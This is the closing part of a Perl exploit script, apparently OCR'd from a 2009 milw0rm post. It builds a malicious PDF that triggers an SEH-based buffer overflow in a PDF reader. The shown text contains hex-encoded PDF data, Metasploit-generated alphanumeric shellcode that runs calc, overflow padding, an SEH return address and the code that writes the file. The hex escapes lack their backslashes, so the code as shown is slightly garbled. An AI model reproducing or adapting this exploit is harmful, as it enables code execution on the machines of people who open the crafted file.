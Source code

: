          "x32x35x32x30x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x32x34x38x33x20x30x30x30x30x30x20x6E".
         "x0Dx0Ax30x30x30x30x30x30x32x34x34x34x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x32x31x30x32".
         "x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x31x37x36x36x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30".
         "x30x30x30x30x31x36x33x35x20x30x30x30x30x30x20x6Ex0Dx0Ax74x72x61x69x6Cx65x72x0Dx0Ax3Cx3Cx2Fx52x6F".
         "x6Fx74x20x37x20x30x20x52x20x2Fx49x6Ex66x6Fx20x38x20x30x20x52x20x2Fx49x44x5Bx28xDFxB0x2BxECxF3x6B".
         "xFAx01x9CxBCx4Bx06x11x7Cx78x79x29x28xDFxB0x2BxECxF3x6BxFAx01x9CxBCx4Bx06x11x7Cx78x79x29x5Dx2Fx44".
         "x6Fx63x43x68x65x63x6Bx73x75x6Dx2Fx37x36x33x36x30x32x39x46x42x32x42x32x46x44x32x39x42x43x33x34x41".
         "x42x43x33x32x43x46x34x35x42x38x46x2Fx53x69x7Ax65x20x32x36x3Ex3Ex0Dx0Ax73x74x61x72x74x78x72x65x66".
         "x0Dx0Ax38x30x35x37x0Dx0Ax25x25x45x4Fx46x0Dx0A";

# win32_exec -  EXITFUNC=process CMD=calc Size=343 Encoder=PexAlphaNum <http://metasploit.com>
my $shellcode =
"xebx03x59xebx05xe8xf8xffxffxffx4fx49x49x49x49x49".
"x49x51x5ax56x54x58x36x33x30x56x58x34x41x30x42x36".
"x48x48x30x42x33x30x42x43x56x58x32x42x44x42x48x34".
"x41x32x41x44x30x41x44x54x42x44x51x42x30x41x44x41".
"x56x58x34x5ax38x42x44x4ax4fx4dx4ex4fx4ax4ex46x34".
"x42x50x42x30x42x50x4bx58x45x44x4ex43x4bx58x4ex37".
"x45x30x4ax37x41x30x4fx4ex4bx38x4fx44x4ax41x4bx58".
"x4fx55x42x32x41x30x4bx4ex49x44x4bx38x46x53x4bx58".
"x41x30x50x4ex41x43x42x4cx49x39x4ex4ax46x48x42x4c".
"x46x37x47x50x41x4cx4cx4cx4dx30x41x50x44x4cx4bx4e".
"x46x4fx4bx53x46x55x46x32x46x50x45x37x45x4ex4bx48".
"x4fx35x46x32x41x30x4bx4ex48x36x4bx58x4ex30x4bx54".
"x4bx48x4fx55x4ex41x41x50x4bx4ex4bx48x4ex31x4bx38".
"x41x30x4bx4ex49x58x4ex45x46x32x46x50x43x4cx41x33".
"x42x4cx46x46x4bx58x42x44x42x33x45x38x42x4cx4ax47".
"x4ex30x4bx48x42x34x4ex50x4bx48x42x37x4ex51x4dx4a".
"x4bx48x4ax36x4ax30x4bx4ex49x50x4bx58x42x48x42x4b".
"x42x30x42x30x42x30x4bx38x4ax56x4ex43x4fx35x41x43".
"x48x4fx42x36x48x45x49x58x4ax4fx43x48x42x4cx4bx37".
"x42x55x4ax36x50x37x4ax4dx44x4ex43x47x4ax36x4ax59".
"x50x4fx4cx38x50x30x47x35x4fx4fx47x4ex43x46x41x36".
"x4ex56x43x36x42x50x5a";

my $overflow1 = "x41" x 1346;
my $overflow2 = "x41" x (4096 - (length($shellcode) + 255));
my $overflow3 = "x41" x 255;
my $sehjmp = "SkD"; # ;)
my $sehret = "x64xeex1fx02";     # 0x021fee64 - damn you SafeSEH

open (my $pdf, "> s.pdf");
binmode $pdf;
print $pdf $pdf_data1.
           $overflow1.$sehjmp.$sehret.$overflow2.$shellcode.$overflow3.
           $pdf_data2;
close $pdf;

# [milw0rm.com](http://www.milw0rm.com/exploits/8201) [2009-03-11]

